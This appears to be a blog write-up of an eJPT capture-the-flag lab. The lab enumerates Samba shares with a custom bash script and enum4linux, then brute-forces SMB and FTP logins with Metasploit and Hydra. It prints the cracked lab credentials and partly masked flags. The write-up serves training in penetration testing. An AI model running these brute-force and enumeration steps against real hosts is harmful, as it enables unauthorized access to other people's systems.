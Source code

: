 ```yaml
---
title: "eJPT - Assessment Methodologies: Enumeration CTF 1"
date: 2025-05-20 00:00:00 - 0600
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```


The first step is to find the ip address of the target machine for that we are using this command to list the ip address form the hosts files `cat /etc/hosts`  then starting the `postgresql` for the msfconsole so that the service can run more effectively.



Before ever we starting here is the main lab environment and the question that we are have to found in that room 

### Lab Environment

A Linux machine is accessible at **target.ine.local**. Identify the services running on the machine and capture the flags. The flag is an md5 hash format.

- **Flag 1:** There is a samba share that allows anonymous access. Wonder what's in there!
- **Flag 2:** One of the samba users have a bad password. Their private share with the same name as their username is at risk!
- **Flag 3:** Follow the hint given in the previous flag to uncover this one.
- **Flag 4:** This is a warning meant to deter unauthorized users from logging in.

**Note:** The wordlists located in the following directory will be useful:

- /root/Desktop/wordlists

### Tools

- Nmap
- Metasploit
- Hydra
- enum4linux
- smbclient
- smbmap

### Questions

1. There is a samba share that allows anonymous access. Wonder what's in there!
    
2. One of the samba users have a bad password. Their private share with the same name as their username is at risk!
3. Follow the hint given in the previous flag to uncover this one.
4. This is a warning meant to deter unauthorized users from logging in.

---

### Question 1

---

Now with that lets start with the main to find the samba share which will give access to the anonymous access.

 
![alt text](/assets/img/image-1.png)


Since the modules `smb_enumshares` does not have the ability to run the custom wordlists we’ll use the bash script to run out the scan and here is the command for that

```bash
#!/bin/bash

# Obtain the target and wordlist from command-line arguments
target="$1"
wordlist="$2"

# Check if both arguments are provided
if [ -z "$target" ] || [ -z "$wordlist" ]; then
    echo "Usage: $0 <target> <wordlist>"
    exit 1
fi

# Check if the wordlist file exists
if [ ! -f "$wordlist" ]; then
    echo "Error: Wordlist file '$wordlist' not found."
    exit 1
fi

# Initialize an array to store successful shares
successful_shares=()

# Loop through each share in the wordlist
while read -r share; do
    echo -e "Testing share: \e[34m$share\e[0m"
    smbclient "//$target/$share" -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        successful_shares+=("$share")
    fi
done < "$wordlist"

# Output the results
if [ ${#successful_shares[@]} -gt 0 ]; then
    echo -e "\n\e[32m[+] Successfully accessed shares:\e[0m"
    for share in "${successful_shares[@]}"; do
        echo -e "\e[32m[+] \e[34m$share\e[0m"
    done
else
    echo -e "\e[31m[-] No accessible shares found.\e[0m"
fi

echo -e "\n[+] SMB enumeration completed."
```

Then we’ll save the files in the local machines and change the script into the executable. 

![alt text](/assets/img/image-2.png)

then running the script with the arguments of target and the share’s list which is made available by scope. and here is the command for that 

```bash
./smb_enum.sh target.ine.local /root/Desktop/wordlists/shares.txt 
```

and we found some share what worth to take a look at it! `pubfiles`



By connection using the `smbclient` we are able to find the flag1.

```bash
smbclient \\\\target.ine.local\\pubfiles
get flag1.txt
!cat flag1.txt
```

---

### Question 2

One of the samba users have a bad password. Their private share with the same name as their username is at risk!

The scope says that samba user have the bad password first let’s check the available user using the tool called `enum4linux` .

```bash
enum4linux -a target.ine.local
```

![alt text](/assets/img/image-4.png)

Here we found 4 user’s and let’s a user list for the further use of it.

![alt text](/assets/img/image-5.png)

Then as the scope is related to the login we’ll use the `smb_login` models form the `msfconsole` which we’ll give the `user_pass` the password that is generated from the  `enum4linux` user list. then for the password we’ll use the scope password given by.

 

![alt text](/assets/img/image-6.png)

```bash
use auxiliary/scanner/smb/smb_login 
set user_file user.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
run
```

after execution we found 2 user and their password for the smbshare’s and here is the list

![alt text](/assets/img/image-7.png)

```bash
josh:purple
alice:admin
```

Let’s try using the creds we found to login as them and find some information.



```bash
smbclient \\\\target.ine.local\\josh -U josh
ls
get flag2.txt
!cat flag2.txt
```

With that we found the `flag2.txt`  and here is the flag. 

FLAG2{06fb1ae898134918b11*********}

---

### Question 3

1. Follow the hint given in the previous flag to uncover this one.


<aside>
💡

Psst! I heard there is an FTP service running. Find it and check the banner.

</aside>

so now we have to focus on FTP services in his case we’ll use the hydra tool 

![alt text](/assets/img/image-9.png)

here is the command for it 

```bash
hydra -L user.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local -s 5554
```

- **`hydra`** → The tool being used for brute-force attacks.
- **`L user.txt`** → Specifies a file (`user.txt`) containing a list of usernames to try.
- **`P /root/Desktop/wordlists/unix_passwords.txt`** → Specifies a file containing a list of passwords to try.
- **`ftp://target.ine.local`** → The target service (FTP) and hostname (`target.ine.local`).
- **`s 5554`** → Specifies a custom port (`5554`) instead of the default FTP port (`21`).

![alt text](/assets/img/image-10.png)
<aside>
💡

Found: alice:pretty

</aside>

Using the Creds we logged into the ftp services and got the flag3.



```bash
ftp target.ine.local 5554
ls
get flag3.txt
!cat flag3.txt
```

FLAG3{b4b818bbc0d84a60b380*********}

---

### Question 4

The services which we didn’t look into is the `ssh` so we’ll try to login into the services after which we found out that flag is present in that banner of the SSH services hence we also found the flag4.

 

FLAG4{1631ae1d05d2446ab47*********}

with that this room comes to an end!